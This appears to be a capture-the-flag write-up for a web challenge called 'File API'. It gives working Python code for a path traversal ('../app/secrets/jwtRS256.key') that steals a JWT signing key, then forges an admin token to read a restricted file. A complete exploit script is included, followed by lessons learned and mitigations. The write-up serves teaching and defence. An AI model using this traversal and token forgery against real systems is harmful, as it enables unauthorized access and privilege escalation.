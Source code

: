 # File API - CTF Challenge Writeup

**Challenge Name:** File API\
**Category:** Web Security\
**Description:** "No source provided. GLHF :)"

## Challenge Overview

The File API challenge presents a REST API with JWT-based authentication and file download functionality. The goal is to access a restricted `flag.txt` file that requires elevated privileges.

## Initial Reconnaissance

### API Endpoints Discovery

Accessing the challenge URL reveals several key endpoints:

![Screenshot](./Images/OpenAPI%20UI.png)

- `GET /` - Root endpoint
- `GET /docs` - Swagger UI documentation
- `GET /openapi.json` - OpenAPI specification
- `POST /api/register` - User registration
- `POST /api/login` - User authentication
- `GET /api/me` - Current user information
- `GET /api/files` - List available files
- `GET /api/download?file=<filename>` - Download files (requires authentication)

### API Analysis

The OpenAPI specification reveals:

- JWT-based authentication using Bearer tokens
- File download functionality with a `file` parameter
- Security schemes using HTTPBearer

## Exploitation Process

### Step 1: Authentication and File Enumeration

First, I created a user account and authenticated to obtain a JWT token:

```python
import requests
import uuid

BASE = "https://xwivtpjs.web.ctf.uscybergames.com"
s = requests.Session()

# Register and login
username = f"ctf_{uuid.uuid4().hex[:8]}"
password = uuid.uuid4().hex

s.post(f"{BASE}/api/register", json={"username": username, "password": password})
r = s.post(f"{BASE}/api/login", json={"username": username, "password": password})
token = r.json()["access_token"]
s.headers["Authorization"] = f"Bearer {token}"
```

### Step 2: JWT Token Analysis

Examining the JWT token from `/api/me` revealed crucial information:

```json
{
  "sub": "ctf_b1ac62e6",
  "role": "user", 
  "kid": "/app/secrets/jwtRS256.key"
}
```

**Key Observations:**

- Current role is `user` (likely need `admin` for flag access)
- `kid` parameter exposes the JWT signing key location: `/app/secrets/jwtRS256.key`

### Step 3: File Discovery

The `/api/files` endpoint revealed three files:

- `flag.txt` (25 bytes, **restricted**: true) ← Target file
- `readme.txt` (20 bytes, restricted: false)
- `swagger.json` (6498 bytes, restricted: false)

Attempting to download `flag.txt` returned `403 Forbidden`, confirming insufficient privileges.

### Step 4: Path Traversal Attack

The `kid` parameter suggested the JWT signing key might be accessible. I tested path traversal on the `/api/download` endpoint:

```python
# Attempt to access the JWT signing key
r = s.get(f"{BASE}/api/download", params={"file": "../app/secrets/jwtRS256.key"})
```

**Success!** The path traversal vulnerability allowed access to the private key:

```
-----BEGIN PRIVATE KEY-----
MIIEvAIBADANBgkqhkiG9w0BAQEFAASCBKYwggSiAgEAAoIBAQCs+xUhk5MlLAs6
SdZ7aH4WH91qguB7ryhvrqeLwHUgr7AOv/Jn5vuBlo40+0kgqRK0BMoW5mo4fCDR
[... key content ...]
-----END PRIVATE KEY-----
```

### Step 5: JWT Forgery and Privilege Escalation

With the private key, I could forge a new JWT token with admin privileges:

```python
import jwt

private_key = """-----BEGIN PRIVATE KEY-----
[... extracted key ...]
-----END PRIVATE KEY-----"""

# Forge admin token
admin_payload = {
    "sub": "ctf_b1ac62e6",
    "role": "admin",  # Escalate privileges
    "kid": "/app/secrets/jwtRS256.key"
}

admin_token = jwt.encode(admin_payload, private_key, algorithm="RS256")
s.headers["Authorization"] = f"Bearer {admin_token}"
```

### Step 6: Flag Retrieval

With the forged admin token, I could successfully access the restricted flag file:

```python
r = s.get(f"{BASE}/api/download", params={"file": "flag.txt"})
flag = r.content.decode('utf-8')
print(f"FLAG: {flag}")
```

## Vulnerability Chain

This challenge demonstrated a chain of vulnerabilities:

1. **Information Disclosure**: JWT `kid` parameter exposed private key location
1. **Path Traversal**: `/api/download` endpoint allowed directory traversal (`../`)
1. **Cryptographic Key Exposure**: Private key was accessible through path traversal
1. **Insufficient Access Controls**: Role-based access could be bypassed with forged tokens

## Complete Exploit Code

```python
import requests
import jwt
import uuid

BASE = "https://xwivtpjs.web.ctf.uscybergames.com"
TIMEOUT = 10

# Extracted private key
private_key = """-----BEGIN PRIVATE KEY-----
MIIEvAIBADANBgkqhkiG9w0BAQEFAASCBKYwggSiAgEAAoIBAQCs+xUhk5MlLAs6
[... full key content ...]
-----END PRIVATE KEY-----"""

s = requests.Session()
s.headers.update({"User-Agent": "file-api-client"})

# Create admin JWT payload
admin_payload = {
    "sub": "ctf_b1ac62e6",
    "role": "admin",
    "kid": "/app/secrets/jwtRS256.key"
}

# Forge admin token
admin_token = jwt.encode(admin_payload, private_key, algorithm="RS256")
s.headers["Authorization"] = f"Bearer {admin_token}"

# Download flag
r = s.get(f"{BASE}/api/download", params={"file": "flag.txt"}, timeout=TIMEOUT)
flag = r.content.decode('utf-8', 'ignore')
print(f"FLAG: {flag}")
```

## Lessons Learned

1. **Never expose sensitive paths in JWT claims** - The `kid` parameter should not reveal filesystem paths
1. **Implement proper path validation** - File download endpoints must prevent directory traversal
1. **Secure key storage** - Private keys should never be accessible via web endpoints
1. **Defense in depth** - Multiple security layers prevent single-point-of-failure exploits

## Mitigation Strategies

- **Input Validation**: Sanitize file paths and reject `../` sequences
- **Allowlisting**: Only permit downloads from designated directories
- **Key Management**: Store private keys outside web-accessible paths
- **JWT Security**: Use key IDs that don't expose internal paths
- **Access Controls**: Implement robust authorization checks that can't be bypassed

This challenge excellently demonstrated how seemingly minor information leaks can lead to complete system compromise through vulnerability chaining.
